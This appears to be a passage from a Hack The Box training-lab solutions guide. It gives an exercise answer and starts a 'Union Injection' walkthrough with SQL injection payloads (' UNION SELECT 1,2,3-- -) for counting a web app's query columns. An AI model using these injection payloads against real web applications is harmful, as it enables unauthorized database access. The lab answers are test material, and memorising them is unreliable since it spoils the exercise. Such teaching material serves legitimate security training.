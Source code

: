Alternatively, students can find out the number of records by just retrieving all data without the `COUNT()` function:

Code: sql

```sql
SELECT * FROM employees UNION SELECT dept_no,dept_name,3,4,5,6 FROM departments;
```

```
+--------+--------------------+--------------+
| emp_no | birth_date         | first_name   |
+--------+--------------------+--------------+
| 10001  | 1953-09-02         | Georgi       |
| 10002  | 1952-12-03         | Vivian       |
|                     <SNIP>                 |
+--------+--------------------+--------------+
663 rows in set (0.006 sec)
```

Answer: `663`

# Union Injection

## Question 1

### "Use a Union injection to get the result of 'user()'"

Students first need to detect the number of columns being selected in the query ran by the backend of the web-application. Either `ORDER BY` or `UNION` injections can be used. Using the `UNION` statement injection, students will need to execute queries until no error message is received, i.e., until the number of columns match:

Code: sql

```sql
' UNION SELECT 1-- -
```

![[HTB Solutions/CPTS/z. images/cceaaca3aede2ddf5db0dec8cfcc82c3_MD5.jpg]]

Code: sql

```sql
' UNION SELECT 1,2-- -
```

![[HTB Solutions/CPTS/z. images/1c30a0c8650280458a5d87d65ed194dc_MD5.jpg]]

Code: sql

```sql
' UNION SELECT 1,2,3-- -
```

![[HTB Solutions/CPTS/z. images/9b188716f072c11fc57ca71b9b922f8f_MD5.jpg]]
